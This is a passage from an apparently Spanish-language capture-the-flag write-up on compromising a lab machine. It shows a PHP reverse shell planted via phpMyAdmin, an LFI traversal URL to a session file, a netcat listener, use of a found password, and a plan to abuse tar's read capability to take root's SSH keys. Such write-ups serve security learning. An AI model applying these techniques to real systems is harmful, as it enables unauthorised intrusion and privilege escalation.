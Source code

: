 Me dirijo a http://datasafe.votenow.local/ y en el apartado de consultas SQL incluyo una consulta SQL con código PHP que ejecuta un reverse shell hacia mi máquina atacante

![imagen](https://github.com/user-attachments/assets/071640dd-68dc-4276-8e59-b4f289f727e6)

Me aprovecho del LFI para apuntar a mi session y así ejecutar el código PHP almacenado, introduzco en la URL: http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_bu08avjvlj87iusllqkr49skv9n9n8cn

![imagen](https://github.com/user-attachments/assets/3f00e922-81be-4803-a69d-b1259aea1ed2)

Consigo obtener acceso al sistema como el usuario apache

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.2.133] from (UNKNOWN) [192.168.2.142] 36112
bash: no job control in this shell
bash-4.2$ whoami
apache
```

## Post exploitation

### User Pivoting

Obtengo acceso al sistema como el usuario apache, este es un usuario con bajos privilegios por lo que debo de buscar alguna manera de pivotar hacia otro usuario. Comenzaré visualizando cuales son los usuarios que existen en el sistema.

```bash
bash-4.2$ grep sh$ /etc/passwd
root:x:0:0:root:/root:/bin/bash
admin:x:1000:1000::/home/admin:/bin/bash
```

Observo que el usuario admin es el único que se encuentra disponible en el sistema a parte de root, anteriormente en phpMyAdmin he sido capaz de obtener la contraseña del usuario admin, la cual es Stella, por lo que migro al usuario admin

```bash
bash-4.2$ su admin
Password: 
[admin@votenow home]$ whoami
admin
```

### Privilege escalation

Utilizo el comando getcap para visualizar las capabilities, observo /usr/bin/tarS con cap_dac_read_search+ep, esto permite al proceso ignorar los permisos de lectura y búsqueda puediendo leer archivos y recorrer directorios sin importar los permisos establecidos por el propietario. Por lo que podría intentar realizar un comprimido de /roo/.ssh, si el usuario root dispone de un par de claves obtendría las misma y podría escalar mis privilegios.
